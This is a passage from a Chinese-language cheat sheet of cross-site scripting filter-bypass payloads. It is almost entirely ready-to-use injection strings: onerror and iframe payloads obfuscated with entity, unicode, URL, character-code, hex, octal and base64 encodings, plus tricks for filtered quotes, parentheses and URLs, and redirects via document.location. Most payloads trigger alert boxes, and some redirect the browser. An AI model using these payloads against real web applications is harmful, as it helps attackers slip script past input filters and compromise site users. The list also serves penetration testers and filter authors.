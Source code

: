 <img src\="x" onerror\="&#97;&#108;&#101;&#114;&#116;&#40;&#34;&#120;&#115;&#115;&#34;&#41;&#59;"\>

<img src\="x" onerror\="eval('\\u0061\\u006c\\u0065\\u0072\\u0074\\u0028\\u0022\\u0078\\u0073\\u0073\\u0022\\u0029\\u003b')"\>

url 编码绕过

<img src\="x" onerror\="eval(unescape('%61%6c%65%72%74%28%22%78%73%73%22%29%3b'))"\>

    <iframe src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>

Ascii 码绕过

<img src\="x" onerror\="eval(String.fromCharCode(97,108,101,114,116,40,34,120,115,115,34,41,59))"\>

hex 绕过

    <img src=x onerror=eval('\x61\x6c\x65\x72\x74\x28\x27\x78\x73\x73\x27\x29')>

八进制

    <img src=x onerror=alert('\170\163\163')>

base64 绕过

    <img src="x" onerror="eval(atob('ZG9jdW1lbnQubG9jYXRpb249J2h0dHA6Ly93d3cuYmFpZHUuY29tJw=='))">
    
    <iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4=">

#### 过滤双引号，单引号

1.如果是 html 标签中，我们可以不用引号。如果是在 js 中，我们可以用反引号代替单双引号

    <img src="x" onerror=alert(`xss`);>

2.使用编码绕过，具体看上面我列举的例子，我就不多赘述了

#### 过滤括号

当括号被过滤的时候可以使用 throw 来绕过

    <svg/onload="window.onerror=eval;throw'=alert\x281\x29';">

#### 过滤 url 地址

##### 使用 url 编码

    <img src="x" onerror=document.location=`http://%77%77%77%2e%62%61%69%64%75%2e%63%6f%6d/`>

##### 使用 IP

1.十进制 IP

    <img src="x" onerror=document.location=`http://2130706433/`>
